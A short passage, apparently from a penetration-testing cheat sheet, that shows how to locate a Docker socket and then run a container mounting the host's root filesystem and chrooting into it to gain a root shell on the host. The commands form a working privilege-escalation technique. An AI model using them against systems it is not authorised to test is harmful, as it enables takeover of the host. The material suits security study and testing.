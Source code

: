 ### Search the socket

```bash
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

```